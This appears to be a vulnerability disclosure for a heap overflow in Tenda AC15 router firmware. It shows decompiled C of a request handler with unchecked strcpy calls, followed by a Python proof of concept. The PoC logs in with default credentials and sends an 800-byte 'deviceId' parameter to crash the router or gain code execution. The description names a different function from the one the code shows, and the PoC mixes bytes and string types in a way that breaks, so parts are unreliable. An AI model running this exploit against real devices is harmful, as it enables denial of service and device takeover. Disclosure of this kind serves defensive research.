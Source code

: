 ## Tenda AC15 multiple heap overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function formExpandDlnaFile, the content obtained by the program from the parameter "deviceId" is passed to local_28, 
and then the local_28 is directly copied into the local_50 heap through the strcpy function.
There is no size check, so there is a heap overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void saveParentControlInfo(undefined4 param_1)

{
  int iVar1;
  undefined uVar2;
  bool bVar3;
  undefined4 local_3d8;
  undefined4 local_3d4;
  undefined4 local_3d0;
  undefined4 local_3cc;
  undefined4 local_3c8;
  undefined4 local_3c4;
  undefined4 local_3c0;
  undefined4 local_3bc;
  undefined4 local_3b8;
  undefined4 local_3b4;
  undefined4 local_3b0;
  undefined4 local_3ac;
  undefined4 local_3a8;
  undefined4 local_3a4;
  undefined4 local_3a0;
  undefined4 local_39c;
  int local_398;
  char acStack916 [128];
  int aiStack788 [30];
  undefined4 local_29c;
  undefined2 local_298;
  char local_296 [2];
  undefined auStack660 [512];
  undefined auStack148 [64];
  undefined *local_54;
  void *local_50;
  char *local_4c;
  char *local_48;
  undefined4 local_44;
  char *local_40;
  char *local_3c;
  char *local_38;
  char *local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  undefined4 local_24;
  undefined4 local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  memset(auStack148,0,0x40);
  memset(auStack660,0,0x200);
  local_29c = 0;
  local_298 = 0;
  local_296[0] = '\0';
  local_18 = 0;
  local_1c = 0;
  local_14 = 0;
  memset(aiStack788,0,0x78);
  memset(acStack916,0,0x80);
  local_20 = 0;
  local_398 = 0;
  local_24 = 0;
  local_28 = (char *)FUN_0002ba8c(param_1,"deviceId",&DAT_000edd28);  //here
  local_2c = (char *)FUN_0002ba8c(param_1,"enable",&DAT_000edd28);
  local_30 = (char *)FUN_0002ba8c(param_1,"time",&DAT_000edd28);
  local_34 = (char *)FUN_0002ba8c(param_1,"url_enable",&DAT_000edd28);
  local_38 = (char *)FUN_0002ba8c(param_1,"urls",&DAT_000edd28);
  local_3c = (char *)FUN_0002ba8c(param_1,"day",&DAT_000edd28);
  local_40 = (char *)FUN_0002ba8c(param_1,"block",&DAT_000edd28);
  local_44 = FUN_0002ba8c(param_1,"connectType",&DAT_000edd28);
  local_48 = (char *)FUN_0002ba8c(param_1,"limit_type",&DAT_000eddc8);
  local_4c = (char *)FUN_0002ba8c(param_1,"deviceName",&DAT_000edd28);
  ...
  local_50 = malloc(0x254); //alloc memory
  memset(local_50,0,0x254); 
  strcpy((char *)((int)local_50 + 2),local_28); //here is overflow
  local_54 = (undefined *)malloc(0x254);
  memset(local_54,0,0x254);
  SetValue("parent.global.en",&DAT_000eddc8);
  SetValue("filter.url.en",&DAT_000eddc8);
  SetValue("filter.mac.en",&DAT_000eddc8);
  strcpy(local_54 + 2,local_28);  //here is overflow
  strcpy(local_54 + 0x22,local_30); //here is overflow
  ...
}
```

### * POC
```python
import requests


cmd  = b'deviceId=' + b'A' * 800 + '&enable=&time=&url_enable=&urls=&day=&block=&connectType=&limit_type='
# or cmd  = b'deviceId=&enable=&time=' + b'A' * 800 + '&url_enable=&urls=&day=&block=&connectType=&limit_type='
cmd += b'&deviceName='


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/saveParentControlInfo/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
